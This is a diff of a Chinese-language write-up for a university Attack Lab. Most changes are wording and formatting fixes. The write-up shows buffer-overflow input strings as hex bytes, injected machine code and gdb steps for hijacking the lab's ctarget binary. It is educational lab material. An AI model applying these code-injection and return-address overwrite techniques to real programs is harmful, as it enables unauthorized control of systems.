

Before and after one commit to zhuozhiyongde/Introduction-to-Computer-System-2023Fall-PKU, a Markdown page: 03-Attack-Lab/README.md, 2 parts joined by grey strips. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/03-Attack-Lab/README.md
+++ b/03-Attack-Lab/README.md
@@ -46,14 +48,13 @@ objdump -t ctarget > ctarget.s
 于是得出输入字符串（注意每一行结尾似乎都应该还有一个空格）：
 
 ```asm
-00 00 00 00 00 00
-00 00 00 00 00 00
-00 00 00 00 00 00
-00 00 00 00 00 00
+00 00 00 00 00 00 00 00
+00 00 00 00 00 00 00 00
+00 00 00 00 00 00 00 00
 24 1f 40 00
 ```
 
-编码成 raw 字符串并测试：
+编码成 raw 字符串并测试（即将上面的内容根据 ASCII 码翻译为真实输入）：
 
 ```bash
 ./hex2raw < p1.txt > ans1.txt
@@ -72,6 +73,10 @@ NICE JOB!
 
 ## Phase 2
 
+首先，启动 gdb 并设置断点以进行调试。
+
+因为我们的注入代码会放到缓冲区，而我们要进行 ROP 攻击，就需要知道注入的攻击代码的存放地址，也即缓冲区起始地址。
+
 ```bash
 gdb ctarget
 b getbuf
@@ -80,7 +85,7 @@ layout asm
 layout regs
 ```
 
-待到 `sub    $0x18,%rsp` 这条执行完后，也就可以获得当前的栈指针，即缓冲区起始地址 `0x55634688`
+待到 `sub $0x18,%rsp` 这条执行完后，也就可以获得当前的栈指针，即缓冲区起始地址 `0x55634688`
 
 ![Cleanshot-2023-10-17-at-16.24.35](./README.assets/Cleanshot-2023-10-17-at-16.24.35.png)
 
@@ -94,8 +99,8 @@ ret
 
 这段代码的效果：
 
-1. 将 **立即数 $0x11a67610** 设置为 %rdi 寄存器的值，也即第一个参数
-2. 将 **立即数 $0x401f58** 压入栈中
+1. 将 **立即数** `$0x11a67610` 设置为 `%rdi` 寄存器的值，也即第一个参数
+2. 将 **立即数** `$0x401f58` 压入栈中
 3. 返回
 
 为什么要这么写？可以参见下图：
@@ -216,7 +220,7 @@ x/20x 0x55634688
 0x556346c8:     0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4      0xf4f4f4f4
 ```
 
-可以发现此时我们放在缓冲区的内容还没有被修改，继续 si，直到进入 `hexmatch` 函数，继续执行完成 `sub    $0x88,%rsp`，再次执行上述查看缓冲区的命令，得到
+可以发现此时我们放在缓冲区的内容还没有被修改，继续 `si`，直到进入 `hexmatch` 函数，继续执行完成 `sub $0x88,%rsp`，再次执行上述查看缓冲区的命令，得到
 
 ```text
 (gdb) x/20x 0x55634688
@@ -231,9 +235,9 @@ x/20x 0x55634688
 
 注意到在 `0x556346b8` 这个地址开始，似乎存在一些多余的 0，于是一个很自然的想法是，我们能否将字符数组覆写到这里。
 
-虽然 phase2 中我们知道不能再在溢出的 4 个字节（即第一次控制的 ret）后再写什么，因为会影响原有函数的帧栈的一些东西，但是我们如果保存中间的东西不变，只覆写 `0x556346b8` 的这些 0，也许就可能有效？
+虽然 phase2 中我们知道不能再在溢出的 4 个字节（即第一次控制的 `ret`）后再写什么，因为会影响原有函数的帧栈的一些东西，但是我们如果保存原本存放的东西不变，只覆写 `0x556346b8` 的这些看上去不太有用的 0，也许就可能有效？
 
-于是我们首先将 cookie 转为 ascii 码 `31 31 61 36 37 36 31 30`，然后控制我们的输入，除了第一次 ret 需要更改的四个字节外，保持原有字节不动，直至溢出至 `0x556346b8` ，才再次加入我们需要覆写的字节，并调整存在 %rdi 中的数值为 `0x556346b8` ，于是我们得到我们实际应当输入的字节码：
+于是我们首先将 cookie 转为 ascii 码 `31 31 61 36 37 36 31 30`，然后控制我们的输入，除了第一次 `ret` 需要更改的四个字节外，保持原有字节不动，直至溢出至 `0x556346b8` ，才再次加入我们需要覆写的字节，并调整存在 %rdi 中的数值为 `0x556346b8` ，于是我们得到我们实际应当输入的字节码：
 
 ```asm
 48 c7 c7 b8 46 63 55 68
````
Also changed, not shown: other parts of 03-Attack-Lab/README.md (+60 -55 lines).
